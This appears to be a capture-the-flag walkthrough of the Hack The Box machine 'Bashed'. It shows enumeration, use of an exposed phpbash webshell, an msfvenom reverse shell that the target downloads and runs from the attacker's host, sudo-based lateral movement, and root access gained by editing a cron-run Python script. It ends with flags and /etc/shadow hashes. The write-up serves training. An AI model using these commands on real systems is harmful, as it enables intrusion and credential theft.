






# Resolution summary

>[!summary]
>- Enumeration of port 80 allowed to discovered a **webshell** (phpbash) installed by the dev on the server
>- Exploiting the webshell it is possible to get access to the machine
>- www-data sudo privileges allowed to **execute any command as scriptmanager**
>- scriptmanager can **edit a python file executed by root** through a cron script, allowing to get high privileged code execution

## Improved skills

- Webshell research
- Detect insecure file permissions

## Used tools

- nmap
- gobuster
- msfvenom

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Bashed]
└─$ sudo nmap -p- 10.10.10.68 -sS -v -Pn -oN scans/all-tcp-ports.txt
...
PORT   STATE SERVICE
80/tcp open  http
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Bashed]
└─$ sudo nmap -p80 10.10.10.68 -sT -sV -sC -A -oN scans/open-tcp-ports.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-12 07:46 EDT
Nmap scan report for 10.10.10.68
Host is up (0.050s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   50.14 ms 10.10.14.1
2   50.25 ms 10.10.10.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.00 seconds
```

# Enumeration

## Port 80 - HTTP

Enumerated port 80 using a web browser:





Enumerated web files and directories:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Bashed]
└─$ gobuster dir -u http://10.10.10.68/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o p80-directories.txt -f -r
...
/js/                  (Status: 200) [Size: 3165]
/images/              (Status: 200) [Size: 1564]
/css/                 (Status: 200) [Size: 1758]
/uploads/             (Status: 200) [Size: 14]
/dev/                 (Status: 200) [Size: 1148]
/php/                 (Status: 200) [Size: 939]
/fonts/               (Status: 200) [Size: 2095]
/icons/               (Status: 403) [Size: 292]
/server-status/       (Status: 403) [Size: 300]
```

Enumerated /dev/ files:





# Exploitation

## Remote code execution using phpbash

Generated and hosted a reverse shell from msfvenom:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Bashed/exploit]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.24 LPORT=10099 -f elf -o rs.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rs.elf

┌──(kali㉿kali)-[~/…/HTB/box/Bashed/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Downloaded and executed the reverse shell:



```bash
www-data@bashed:/tmp# cd /tmp
www-data@bashed:/tmp# wget 10.10.14.24/rs.elf

--2021-05-12 05:08:02-- http://10.10.14.24/rs.elf
Connecting to 10.10.14.24:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 152 [application/octet-stream]
Saving to: 'rs.elf'

0K 100% 31.0M=0s

2021-05-12 05:08:02 (31.0 MB/s) - 'rs.elf' saved [152/152]

www-data@bashed:/tmp# ls

VMwareDnD
rs.elf
systemd-private-d0dbe26844344198bb074cc7c4de20c1-systemd-timesyncd.service-i9GhUN
vmware-root
www-data@bashed:/tmp# chmod 777 rs.elf
www-data@bashed:/tmp# ./rs.elf
```

Obtained the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Bashed/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.68] 50044
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:/tmp$ ^Z
zsh: suspended  nc -nlvp 10099

┌──(kali㉿kali)-[~/…/HTB/box/Bashed/exploit]
└─$ stty raw -echo; fg                                               148 ⨯ 1 ⚙

[1]  + continued  nc -nlvp 10099

www-data@bashed:/tmp$ export TERM=xterm
www-data@bashed:/tmp$ stty rows 60 columns 235
```

# Privilege Escalation

## Local enumeration

Enumerated local users:

```bash
www-data@bashed:/home$ ls -al /home/
total 16
drwxr-xr-x  4 root          root          4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
drwxr-xr-x  4 arrexel       arrexel       4096 Dec  4  2017 arrexel
drwxr-xr-x  3 scriptmanager scriptmanager 4096 Dec  4  2017 scriptmanager

www-data@bashed:/home$ cat /etc/passwd | grep -v 'nologin'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

Enumerated information about the system:

```bash
www-data@bashed:/var/www/html$ uname -a
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@bashed:/var/www/html$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial

[+] Operative system                                                                                                 
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits                
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
Distributor ID: Ubuntu                                    
Description:    Ubuntu 16.04.2 LTS                
Release:        16.04                                                                                                
Codename:       xenial
```

Enumerated running services:

```bash
www-data@bashed:/var/www/html$ netstat -polentau
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name Timer
tcp        0      0 10.10.10.68:50044       10.10.14.24:10099       ESTABLISHED 33         93559       2502/sh          off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      0          14639       -                off (0.00/0/0)
tcp6       0      0 10.10.10.68:80          10.10.14.24:49502       ESTABLISHED 33         92997       -                keepalive (5916.72/0/0)
```

Enumerated root processes:

```bash
scriptmanager@bashed:/scripts$ ps -aux | grep root | grep -v '\['
root          1  0.0  0.5  37456  5540 ?        Ss   May11   0:02 /sbin/init noprompt
root        234  0.0  0.2  28332  2700 ?        Ss   May11   0:00 /lib/systemd/systemd-journald
root        264  0.0  0.0 158624   316 ?        Ssl  May11   0:00 vmware-vmblock-fuse /run/vmblock-fuse -o rw,subtype=vmware-vmblock,default_permissions,allow_other,dev,suid
root        287  0.0  0.3  44296  3768 ?        Ss   May11   0:00 /lib/systemd/systemd-udevd
root        538  0.0  1.0 111992 10164 ?        Ss   May11   0:17 /usr/bin/vmtoolsd
root        551  0.0  0.3  29008  3124 ?        Ss   May11   0:00 /usr/sbin/cron -f
root        553  0.0  0.8 275864  8364 ?        Ssl  May11   0:00 /usr/lib/accountsservice/accounts-daemon
root        555  0.0  0.1  20100  1220 ?        Ss   May11   0:00 /lib/systemd/systemd-logind
root        646  0.0  0.1  15940  1764 tty1     Ss+  May11   0:00 /sbin/agetty --noclear tty1 linux
root        748  0.0  2.4 255896 24940 ?        Ss   May11   0:01 /usr/sbin/apache2 -k start
root      17717  0.0  0.3  49792  3560 pts/0    S    05:31   0:00 sudo -u scriptmanager /tmp/rs.elf
```

## Lateral movement to scriptmanager

Enumerated sudo privileges for www-data user:

```bash
www-data@bashed:/var/www/html$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

www-data sudo privileges allowed to execute any command as scriptmanager user:

```bash
www-data@bashed:/var/www/html$ sudo -u scriptmanager id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)

www-data@bashed:/var/www/html$ sudo -u scriptmanager /tmp/rs.elf &
```

Obtained the reverse shell:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Bashed]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.68] 50050
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
python -c 'import pty;pty.spawn("/bin/bash")'
scriptmanager@bashed:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 10099

┌──(kali㉿kali)-[~/CTFs/HTB/box/Bashed]
└─$ stty raw -echo; fg                                           148 ⨯ 1 ⚙

[1]  + continued  nc -nlvp 10099

scriptmanager@bashed:/var/www/html$ export TERM=xterm
scriptmanager@bashed:/var/www/html$ stty rows 60 columns 235
```

## Insecure file permissions - Privilege Escalation

Enumerated /scripts/ content:

```bash
scriptmanager@bashed:/scripts$ ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May 12 05:38 test.txt
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Edited the script in order to understand if it was executed by root:

```bash
scriptmanager@bashed:/scripts$ nano test.py
f = open("thiswasroot.txt", "w")
f.write("testing root!")
f.close
```

Root executed the script and generated a file:

```bash
scriptmanager@bashed:/scripts$ ls -al
total 20
drwxrwxr--  2 scriptmanager scriptmanager 4096 May 12 06:33 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   66 May 12 06:32 test.py
-rw-r--r--  1 root          root            14 May 12 06:32 test.txt
-rw-r--r--  1 root          root            13 May 12 06:35 thiswasroot.txt
```

Edited the python file making it executing a reverse shell:

```bash
scriptmanager@bashed:/scripts$ nano test.py 
import os;
...
os.system('/tmp/rs.elf')
...
```

Executed the bash binary with high privileges and obtained a reverse shell:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Bashed]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.68] 50054
id && hostname && cat /root/root.txt && ifconfig
uid=0(root) gid=0(root) groups=0(root)
bashed
cc4f0afe3a1026d402ba10329674a8e2
ens33     Link encap:Ethernet  HWaddr 00:50:56:b9:01:ac
          inet addr:10.10.10.68  Bcast:10.10.10.255  Mask:255.255.255.255
          inet6 addr: fe80::250:56ff:feb9:1ac/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feb9:1ac/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:363531 errors:0 dropped:183 overruns:0 frame:0
          TX packets:348897 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:48673242 (48.6 MB)  TX bytes:142115598 (142.1 MB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:147232 errors:0 dropped:0 overruns:0 frame:0
          TX packets:147232 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:10908072 (10.9 MB)  TX bytes:10908072 (10.9 MB)
```



# Trophy

>[!quote]
> Any fool can know. The point is to understand.
> 
>\- Albert Einstein

>[!success]
>**User.txt**
>2c281f318555dbc1b856957c7147bfc1

>[!success]
>**Root.txt**
>cc4f0afe3a1026d402ba10329674a8e2

**/etc/shadow**

```bash
cat /etc/shadow | grep '\$'
arrexel:$1$mDpVXKQV$o6HkBjhl/e.S.bV96tMm6.:17504:0:99999:7:::
scriptmanager:$6$WahhM57B$rOHkWDRQpds96uWXkRCzA6b5L3wOorpe4uwn5U32yKRsMWDwKAm.RF6T81Ki/MOyo.dJ0B8Xm5/wOrLk35Nqd0:17504:0:99999:7:::
```